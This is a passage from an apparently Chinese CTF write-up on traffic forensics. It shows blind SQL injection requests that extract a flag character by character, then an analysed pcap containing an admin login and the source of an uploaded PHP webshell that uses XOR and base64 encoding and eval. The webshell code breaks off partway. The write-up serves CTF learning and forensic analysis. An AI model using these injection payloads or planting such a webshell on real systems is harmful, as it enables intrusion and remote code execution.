 ```bash
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),1,1))=102--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),2,1))=108--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),3,1))=97--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),4,1))=103--  HTTP/1.1
···
```

查一下[Ascii字母表](https://blog.csdn.net/Lucky_bo/article/details/52247939)

得到flag：

`102 108 97 103 123 119 49 114 101 115 104 65 82 75 95 101 122 95 49 115 110 116 105 116 125`->`flag{w1reshARK_ez_1snt}`

#### # 1x04 [...]usb流量分析

[...]

#### # 1x05 取证/攻击行为

- 无题目描述；给出的是一份流量文件：[backdoor.pcapng](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CTF/MISC/backdoor/backdoor.pcapng)

打开一看映入眼帘的是一系列SQL注入的payload：(`File -> Export Objects -> HTTP`)

![截屏2021-09-08 下午2.32.14.png](https://i.loli.net/2021/09/08/yPQAJtCO2LIVT8W.png)

导出几个出来看看，得到一些数据库的信息：

![截屏2021-09-08 下午2.28.44.png](https://i.loli.net/2021/09/08/j7mBCryiQ1SONfh.png)

往下就是`Login.php POST包`登录成功的信息：
```bash
POST /login.php HTTP/1.1
···
username=admin&password=mysql&button=SIGN-IN
HTTP/1.1 302 Found
Location: ./admin/index.php
```
接着往下，获取到了一些有用的信息，流量显示`Upload.php`Post上传成功了一个php马：
```php
<?php
    session_start();
    @set_time_limit(0);
	@error_reporting(0);
    function E($D,$K){
        for($i=0;$i<strlen($D);$i++) {
            $D[$i] = $D[$i]^$K[$i+1&15];
        }# E函数为异或加密
        return $D;
    }
    function Q($D){
        return base64_encode($D);
    }# Q函数为base64编码
    function O($D){
        return base64_decode($D);
    }# O函数为base64解码
    $P='pass'; # 木马连接参数
    $V='payload'; # 执行载荷
    $T='3c6e0b8a9c15224a'; # 加密密钥
    if (isset($_POST[$P])){
        $F=O(E(O($_POST[$P]),$T));
        if (isset($_SESSION[$V])){
            $L=$_SESSION[$V];
            $A=explode('|',$L);
            class C{public function nvoke($p) {eval($p."");}}
            $R=new C();
```